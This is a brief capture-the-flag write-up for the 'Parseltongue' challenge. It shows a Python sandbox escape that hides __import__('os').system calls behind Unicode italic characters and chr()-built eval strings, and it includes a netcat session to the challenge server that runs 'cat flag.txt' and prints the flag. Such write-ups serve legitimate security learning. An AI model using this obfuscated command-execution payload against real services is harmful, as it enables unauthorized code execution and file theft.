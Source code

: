 You've meddled with the timeline, and now nobody speaks your language! Biff offers to help, but neither of you can understand each other. Can you sort this out?

## Solucion

```
__import__("os").system("ls")

𝘱𝘳𝘪𝘯𝘵(𝘦𝘷𝘢𝘭(𝘤𝘩𝘳(95)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(105)+𝘤𝘩𝘳(109)+𝘤𝘩𝘳(112)+𝘤𝘩𝘳(111)+𝘤𝘩𝘳(114)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(40)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(41)+𝘤𝘩𝘳(46)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(121)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(101)+𝘤𝘩𝘳(109)+𝘤𝘩𝘳(40)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(108)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(41)))
```

𝘱𝘳𝘪𝘯𝘵(𝘦𝘷𝘢𝘭(𝘤𝘩𝘳(95)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(105)+𝘤𝘩𝘳(109)+𝘤𝘩𝘳(112)+𝘤𝘩𝘳(111)+𝘤𝘩𝘳(114)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(40)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(41)+𝘤𝘩𝘳(46)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(121)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(101)+𝘤𝘩𝘳(109)+𝘤𝘩𝘳(40)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(108)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(41)))


```
__import__("os").system("cat flag.txt")
```

- Solucion
```
┌──(kali㉿kali)-[~/…/11-29-adf-cyber-skills/misc/parseltongue/misc_parseltongue]
└─$ nc 161.35.173.232 30536 
𝒲𝒽𝒶𝓉 𝓌𝑜𝓊𝓁𝒹 𝓎𝑜𝓊 𝓁𝒾𝓀𝑒 𝓂𝑒 𝓉𝑜 𝒹𝑜? 𝘱𝘳𝘪𝘯𝘵(𝘦𝘷𝘢𝘭(𝘤𝘩𝘳(95)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(105)+𝘤𝘩𝘳(109)+𝘤𝘩𝘳(112)+𝘤𝘩𝘳(111)+𝘤𝘩𝘳(114)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(95)+𝘤𝘩𝘳(40)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(41)+𝘤𝘩𝘳(46)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(121)+𝘤𝘩𝘳(115)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(101)+𝘤𝘩𝘳(109)+𝘤𝘩𝘳(40)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(99)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(32)+𝘤𝘩𝘳(102)+𝘤𝘩𝘳(108)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(103)+𝘤𝘩𝘳(46)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(120)+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(34)+𝘤𝘩𝘳(41)))
HTB{1_g3t_wh4t_y0ur3_s4y1ng_n0w!}

```


## Referencias
https://lingojam.com/ItalicTextGenerator
https://blog.pepsipu.com/posts/albatross-redpwnctf
